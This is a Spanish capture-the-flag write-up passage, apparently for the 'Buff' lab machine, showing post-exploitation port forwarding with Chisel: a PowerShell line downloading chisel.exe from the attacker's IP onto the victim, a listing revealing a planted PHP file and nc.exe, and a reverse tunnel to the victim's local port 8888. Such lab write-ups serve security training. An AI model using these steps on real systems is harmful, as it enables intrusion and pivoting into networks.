 ### Port Forwarding

Ahora usaremos [**Chisel**](https://github.com/jpillora/chisel) para hacer el portforwarding y poder acceder al puerto 8888 desde nuestra máquina. 


Subimos Chisel a la máquina de la víctima.

```console

	Upload chisel.exe
	first of all upload chisel.exe to the target machine

	C:\xampp\htdocs\gym\upload>powershell -c "wget 10.10.14.179:4747/chisel.exe -o chisel.exe"
	powershell -c "wget 10.10.14.45:8000/chisel.exe -o chisel.exe"

	C:\xampp\htdocs\gym\upload>dir
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is A22D-49F7

	 Directory of C:\xampp\htdocs\gym\upload

	22/07/2020  06:36    <DIR>          .
	22/07/2020  06:36    <DIR>          ..
	22/07/2020  06:39        10,103,808 chisel.exe
	22/07/2020  06:36                53 kamehameha.php
	22/07/2020  03:34            59,392 nc.exe
	               3 File(s)     10,163,253 bytes
	               2 Dir(s)   9,824,452,608 bytes free

```

Chisel Server (Kali):

```console
	root@kali:~# ./chisel server -p 5000 --reverse -v
	2020/07/22 01:41:02 server: Reverse tunnelling enabled
	2020/07/22 01:41:02 server: Fingerprint 95:3b:86:24:ce:2c:67:3c:6d:8a:b1:21:ee:e4:a1:0b
	2020/07/22 01:41:02 server: Listening on 0.0.0.0:5000...
```

Chisel Client (Buff):


```console
C:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.45:5000 R:8888:127.0.0.1:8888
	.\chisel.exe client 10.10.14.45:5000 R:8888:127.0.0.1:8888
	2020/07/22 06:47:59 client: Connecting to ws://10.10.14.45:5000
	2020/07/22 06:48:00 client: Fingerprint 25:2b:20:a5:31:e8:bb:fc:88:4c:f9:60:3c:7b:34:49
	2020/07/22 06:48:02 client: Connected (Latency 306.5828ms)
```

Ahora todo lo que enviemos al puerto 8888 desde nuestra maquina será redirigido al puerto 8888 del localhost de la víctima a través del túnel que crea chisel.

---
